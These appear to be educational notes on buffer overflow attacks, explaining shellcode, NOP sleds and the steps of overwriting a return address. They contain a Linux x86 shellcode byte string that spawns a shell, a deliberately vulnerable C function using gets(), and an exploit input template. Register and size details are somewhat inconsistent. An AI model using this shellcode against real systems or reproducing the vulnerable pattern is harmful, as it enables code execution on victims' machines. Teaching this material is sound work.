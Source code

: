### Shellcode Characteristics:
- Very small size (often 20-100 bytes)
- Position-independent code
- Avoids null bytes (which terminate strings)
- Available from repositories like Shell-Storm

### Example Shellcode (Linux x86):
```assembly
\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80
\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3
\x89\xd1\xcd\x80
```

### NOP Sled Technique

Since it's difficult to hit shellcode exactly, attackers use **NOP sleds**:

```
┌─────────────────────┐
│     PAYLOAD         │
├─────────────────────┤
│  NOP NOP NOP NOP    │ ← NOP Sled (\x90)
│  NOP NOP NOP NOP    │
│  NOP NOP NOP NOP    │ 
│    SHELLCODE        │ ← Actual malicious code
├─────────────────────┤
│   RETURN ADDRESS    │ ← Points somewhere in NOP sled
└─────────────────────┘
```

**NOP (No Operation)** instructions do nothing but advance to next instruction, creating a "landing pad" for imprecise jumps.

### Complete Buffer Overflow Attack Steps:

1. **Find memory safety vulnerability** (e.g., buffer overflow)
2. **Write shellcode at known memory address**
3. **Overwrite RIP with address of shellcode**
4. **Return from function** (triggers shellcode execution)
5. **Execute malicious code**

### Practical Example:

```c
void vulnerable(void) { 
    char buff[20]; 
    gets(buff);
}
```

**Exploit Input:**
```
SHELLCODE + 'A' * 12 + '\xef\xbe\xad\xde'
```

